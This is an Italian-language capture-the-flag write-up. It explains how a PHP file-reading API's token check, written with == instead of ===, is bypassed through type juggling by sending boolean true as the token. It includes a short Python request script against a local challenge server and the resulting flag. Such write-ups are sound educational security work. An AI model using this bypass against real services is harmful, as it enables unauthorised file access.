

# Yet Other (one) Useless Rest API (`yourAPI`)

La challenge espone un sito web che implementa una `API` che legge dei file in una cartella `/files`.
Non vengono date guide di utilizzo o documentazioni, ma abbiamo il codice, che letto fa capire come fare le richieste, che sono dei json strutturati in questo modo:

```json
{
    "file": "esempio",
    "token": "abcdefg",
    "lines": 5
}
```

e otteniamo delle risposte di questo tipo:

```json
{
    "text": "contenuto",
    "length": 100
}
```

Il problema è che per leggere più di 5 righe serve il **token**, che non abbiamo.

A questo punto, leggendo il codice, il passaggio cruciale è accorgersi che la comparazione fra l'input dell'utente e il token è fatta con un ==, e non con un ===, rendendola vulnerabile a PHP type juggling.



Nello specifico, su PHP una stringa qualsiasi == `true`, quindi è sufficiente utilizzare `true` come token richiedendo `flag.txt` per ottenere la flag intera.

```python
import requests
d = {
    'file': 'flag.txt',
    'token': True,
    'lines': 100
}
r = requests.post("http://localhost:8002/", json=d)
print(r.text)
```

Flag: `rossiCTF{PHP_7yP35_4r3_H1l4r10u5_41e9c8}`